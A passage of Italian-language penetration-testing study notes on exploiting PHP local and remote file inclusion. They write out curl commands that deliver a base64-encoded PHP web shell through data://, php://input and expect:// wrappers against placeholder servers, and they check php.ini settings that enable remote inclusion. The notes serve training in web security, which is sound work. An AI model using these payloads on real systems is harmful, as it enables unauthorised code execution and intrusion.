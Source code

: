 se presente possiamo procedere con la creazione e lo sfruttamento  del nostro payload

```shell
$ echo '<?php system($_GET["cmd"]); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```


## Wrapper Input
Anche questo wrapper dipende dall'impostazione `allow_url_include`.

```shell
$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

## Wrapper Expect
Questo wreapper dipende dall'enstensione `expect`
Dopo aver ottenuto il `php.ini` possiamo controllare che sia presente

```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```
se presente possiamo sfruttaral cosi

```shell
$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

# Remote file inclusion

Finora in questo modulo ci siamo concentrati principalmente sull'inclusione locale di file (LFI). Tuttavia, in alcuni casi, possiamo anche includere file remoti "Remote File Inclusion (RFI)", se la funzione vulnerabile consente l'inclusione di URL remoti. Ciò consente due vantaggi principali:

- Enumerazione di porte e applicazioni web solo locali (ad es. SSRF).
- Ottenere l'esecuzione di codice remoto includendo uno script dannoso che ospitiamo.

In questa sezione, tratteremo come ottenere l'esecuzione di codice remoto attraverso le vulnerabilità RFI. Il modulo Attacchi lato server tratta varie tecniche di SSRF, che possono essere utilizzate anche con le vulnerabilità RFI.

## Verifica RFI
Tramite LFI possiamo verificare che sia possibile fare RFI, ovvero controllando il php.ini e cercando `allow_url_include = On`

```shell
$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

e proviamo per prima cosa ad includere un file locale 
